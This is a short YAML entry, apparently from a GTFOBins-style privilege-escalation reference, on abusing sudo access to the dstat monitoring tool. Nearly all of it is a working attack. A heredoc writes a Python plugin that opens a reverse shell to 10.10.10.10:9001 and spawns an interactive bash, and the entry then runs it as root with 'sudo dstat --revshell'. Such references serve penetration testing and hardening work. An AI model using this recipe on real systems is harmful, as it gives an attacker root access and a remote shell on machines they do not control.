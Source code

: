 ```yaml
---
functions:
  sudo:
    - description: |
        Spawn interactive root shell by loading a custom plugin.

        Dstat allows you to run arbitrary python scripts loaded as "external plugins" if they are located in one of these directories: `~/.dstat/`, `(path of binary)/plugins/`, `/usr/share/dstat/` or `/usr/local/share/dstat/` (as stated in the dstat man page under "FILES"). Given that you have write access to one of these directories, you can drop there a script `dstat_revshell.py` and tell dstat to run it like this:
      code: |
        cat >~/.dstat/dstat_revshell.py<<EOF
        #!/usr/bin/python3
        from os import dup2
        from subprocess import run
        import socket
        s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
        s.connect(("10.10.10.10",9001)) 
        dup2(s.fileno(),0) 
        dup2(s.fileno(),1) 
        dup2(s.fileno(),2) 
        run(["/bin/bash","-i"])
        EOF
        
        sudo dstat --revshell
---
```

